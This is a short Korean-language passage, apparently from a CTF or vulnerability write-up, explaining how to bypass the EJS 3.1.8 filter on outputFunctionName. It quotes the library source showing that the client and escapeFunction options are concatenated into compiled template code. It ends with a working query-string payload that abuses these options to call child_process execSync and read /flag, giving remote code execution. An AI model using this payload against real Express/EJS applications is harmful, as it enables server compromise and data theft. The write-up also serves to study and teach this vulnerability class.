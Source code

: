 3.1.6에서 사용한 Options 중 `outputFunctionName`은 `_JS__JS_IDENTIFIER` 정규 표현식에 의해 필터링되고 있기에 사용이 불가하다.

기존에 Exploit할 때 사용된 `opts.outputFunctionName`와 같이 `shallowCopy`하면서 필터링 규칙이 적용되지 않는 세팅 값을 확인해보면 ejs 636 line과 같다.

```javascript
var escapeFn = opts.escapeFunction;

// 3.1.8 ejs.js 636 line
if (opts.client) {
   src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
}
```

`opts.client` setting 값이 **True**인 경우 `escapeFn` String을 이용하게 되는데 해당 변수는 `opts.escapeFunction` setting 값을 이용하기에 `client`와 `escapeFunction` 두 개를 모두 이용하여 Payload를 작성하면 RCE가 가능하게 된다.

```
?settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');
```